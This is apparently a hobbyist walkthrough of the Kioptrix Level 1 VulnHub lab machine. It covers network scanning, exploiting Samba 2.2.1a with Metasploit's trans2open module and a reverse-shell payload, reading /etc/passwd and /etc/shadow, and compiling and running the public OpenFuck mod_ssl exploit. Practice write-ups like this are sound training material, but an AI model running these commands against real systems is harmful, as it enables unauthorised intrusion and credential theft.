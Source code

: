 # Kioptrix-level 1
(Screenshots are going to be seperate)\
Hey so I'm going to be be going over the process of pwning kioptrix level 1 vulnhub machine. So I started off by using Arpscan to scan for available devices so:\
```arp-scan -l```\
Then I was going to identify it using the MAC address, so in my case I was looking on all possible vendors and eliminating what's not useful. So in my case the MAC address was ```1a:c0:1e:91:41:b9``` you can usually also lookup MAC addresses online because first 3 octets identify the vendor so whatever comes from a specific vendor has the sama first 3 octets (OUI or Organizational Unique Identifier) and the last 3 (NIC or Network Interface Controller) are special for each device. So in my case it was unknown for the vendor possibly because it was hosted on a vm. So in the Arp scan along with the MAC address you get an IP address in my case it was ```192.168.1.44```. Then my next step was to scan that IP address using NMAP to see possible open ports and other information so I used ```nmap -T4 -A -p- 192.168.1.44``` or for realistic taste you can try ```nmap -T4 -sS -A -p- 192.168.1.44``` and the latter I added the "-sS" for stealth scan. So in my results I had 6 open tcp ports (22, 80, 111, 139, 443, 32768). So I ran nikto then went to watch the http and https: ```nikto -h http://192.168.1.44``` as I went to the website it was a default apache page so if that was a real pentest that would give us an idea about the hygiene of the client (awful). In most cases that http with poor hygiene is a finding but after I ran dirbuster it turned it that it didn't have anything important. So we also have the smb port open very important we can run metasploit to scan the version so:\
```msfconsole```\
```use auxiliary/scanner/smb/smb_version```\
```options```\
```set RHOSTS 192.168.1.44```\
```run```\
So the results we got that it's running "Unix (Samba 2.2.1a)"\
we can google "Unix (Samba 2.2.1a) exploits" or we can try to login with smbclient to the address (but it failed).\
So it's possibly vulnerable to "Samba trans2open Overflow (Linux x86)" by rapid 7 (metasploit) so let's see:\
```msfconsole```\
```use exploit/linux/samba/trans2open```\
```option```\
```set LHOST```\
```set RHOSTS```\
```run``` or ```exploit```\
Most likely it's not going to work so a soultion that has worked to me was to change the current payload "linux/x86/shell_reverse_tcp" so :\
```set payload linux/x86/shell_reverse_tcp```\
```run``` or ```exploit```\
Then Most likely you will have a shell. From here you can ```cd``` until you get to home then ```cd etc``` then ```cat passwd``` and ```cat shadow```\
So that's the metasploit route, now let's try to use a manual exploit. So in the scanning I found "mode SSL" on https (Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b). So I looked on google for compatible exploits and found "OpenLuck" on github by heltonWernik. So follow the direction ->\
```git clone https://github.com/heltonWernik/OpenFuck.git```\
```apt-get install libssl-dev```\
```gcc -o OpenFuck OpenFuck.c -lcrypto```\
```./OpenFuck```\
Now we are going to start using the exploit\
```./OpenFuck 0x6b 192.168.1.44 -c 40```\
You should get a shell\
then try things like:\
```whoami```\
```hostname```\
So that was it for this machine, I hope y'all learned something or more and hopefully there will be more content.\
